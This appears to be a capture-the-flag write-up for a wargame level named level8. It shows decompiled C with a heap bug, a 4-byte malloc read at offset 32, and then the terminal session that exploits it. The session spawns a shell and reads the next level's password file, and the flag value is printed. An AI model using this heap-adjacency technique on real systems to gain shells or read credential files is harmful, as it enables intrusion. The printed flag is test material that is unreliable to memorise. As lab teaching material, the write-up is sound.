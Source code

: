 Let's grab instruction of `level8` with GDB and disassemble them.
We should get kind of this code:
``` c
#include <printf.h>
#include <string.h>
#include <stdlib.h>

char *auth = "";
char *service = "";

int main()
{
   char buffer[128];
   while (1)
   {
      printf("%p, %p \n", auth, service);

      if (fgets(buffer, 128, stdin) == NULL)
         return 0;

      if (strncmp(buffer, "auth ", 5) == 0)
      {
         auth = malloc(4);
         if (strlen(buffer + 5) <= 30)
            strcpy(auth, buffer + 5);
      }
      if (strncmp(buffer, "reset", 5) == 0)
      {
         free(auth);
      }
      if (strncmp(buffer, "service", 6) == 0)
      {
         service = strdup(buffer + 7);
      }
      if (strncmp(buffer, "login", 5) == 0)
      {
         if (auth[32] != 0)
            system("/bin/sh");

         fwrite("Password:\n", 1, 10, stdout);
      }
   }

   return 0;
}
```

We see that `auth` variable has length of 4 bytes:
``` c
auth = malloc(4);
```

But then the 32th character is checked:
``` c
if (auth[32] != 0)
   system("/bin/sh");
```

To exploit this we should have superficial knowledge of `malloc` logic.
When two blocks are requested malloc will (usually) place them sequentially like this:
`[header1][payload1][header2][payload2]`

Have this kind of intuition we can assume that `auth[32]` will access next block.
This may be a block for `service` variable!

So, everything we should do is allocate `auth`, then allocate `service` and fill it with big string:
``` shell
$ ./level8 
(nil), (nil) 
auth hello
0x804a008, (nil) 
service djsnckjdsnckjsnckjsndkcnaskdjcnkjsdnckandcjknaksdjcnaksjdnckjadnckjandkcnakdjcnadjc
0x804a008, 0x804a018 
login
$ /home/user/level9/.pass
/bin/sh: 1: /home/user/level9/.pass: Permission denied
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```